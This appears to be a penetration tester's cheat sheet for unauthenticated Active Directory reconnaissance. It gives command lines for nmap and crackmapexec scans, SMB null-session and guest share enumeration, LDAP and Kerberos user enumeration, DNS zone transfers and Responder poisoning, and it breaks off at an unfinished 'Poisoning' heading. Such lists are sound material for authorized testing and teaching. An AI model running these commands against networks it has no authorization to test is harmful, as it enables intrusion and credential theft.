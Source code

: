 ### No credentials

# Scan network

cme smb <ip_range>  
nmap -sP -p <ip>  
nmap -PN -sV --top-ports 50 --open <ip> # quick scan  
nmap -PN --script smb-vuln* -p139,445 <ip> # search smb vuln  
nmap -PN -sC -sV -oA <output> <ip> # classic scan  
nmap -PN -sC -sV -p- -oA <output> <ip> # full scan  
nmap -sU -sC -sV -oA <output> <ip> # udp scan  

# Find DC IP
nmcli dev show eth0 # show domain name & dns
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>

# Zone XFER
dig axfr <domain_name> @<name_server>  

# List guest access SMB shares
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>  
smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>  
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L  //<dc-ip>  
cme smb <ip> -u '' -p '' # enumerate null session  
cme smb <ip> -u 'a' -p '' # enumerate anonymous access  

# Enumerate LDAP  
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>  
ldapsearch -x -h <ip> -s base    

# Find User List
enum4linux -U <dc-ip> | grep 'user:'  
cme smb <ip> --users   
net rpc group members 'Domain Users' -W '<domain>' -I '<ip>' -U '%'  
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>  (OSINT/Internet)  

# Poisoning
responder -I eth0 (use --lm to force lm downgrade) # disable smb & http if relay  
Poisoning 
 SMB ->  
 HTTP ->  


